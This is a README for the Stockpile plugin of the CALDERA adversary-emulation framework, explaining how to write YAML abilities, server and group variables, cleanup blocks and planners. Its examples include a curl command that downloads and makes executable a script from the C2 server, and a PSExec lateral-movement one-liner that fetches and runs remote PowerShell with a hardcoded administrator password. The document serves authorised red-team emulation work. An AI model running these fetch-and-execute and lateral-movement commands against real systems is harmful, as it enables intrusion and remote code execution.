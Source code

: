 # CALDERA plugin: Stockpile

This plugin contains:

* A collection of abilities
* Pre-built adversary profiles
* A filestore
* A basic planner 

## Abilities

You can quickly add your own abilities and adversaries to the stockpile, both of which are reloaded every time
the core server reboots. Stockpile abilities are located in the abilities/ directory.

To add new ones, add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability. Read this carefully, it will be referenced later on.
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  executors:
    bash:
      command: |
        curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
        chmod +x /tmp/wifi.sh
      cleanup:
        rm /tmp/wifi.sh
```

### Ability variables

As you write abilities, note that there are two global variables available, server and group, which 
can be used inside an ability command.

A variable is referenced with the syntax #{variable}.

* Server / #{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group / #{group}: The group used in the active operation.

In the ability example above, note the usage of the #{server} variable.

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. A snippet of what this may look like (for PSExec) would be
```
psexec \\127.0.0.1 -u administrator -p password123 Powershell.exe iex (irm -Method Post -Headers @{'file'='54ndc47.ps1'}  #{server}/file/render?group=#{group})
```

### Download files from CALDERA to an agent

In the ability example, note the command downloading the wifi.sh file from CALDERA. It does this by sending a
POST request to the API endpoint /file/download, including the requested filename as a header.

The /file/download endpoint will look inside the filestore directory of every loaded plugin when called.

### Cleanup

Abilities can optionally include a cleanup block, which will execute automatically at the end of an operation. The
cleanup should be used in instances you want to reverse a mutable action, such as stopping a started process. In
the ability example above, note how the cleanup block is written. Cleanup actions will occur in reverse order
of the abilities that ran.

## Adversaries

New adversaries can be added to the adversaries.yml file.

## Planners

A basic planner, called sequential, runs all abilities on an adversary against all hosts in a group
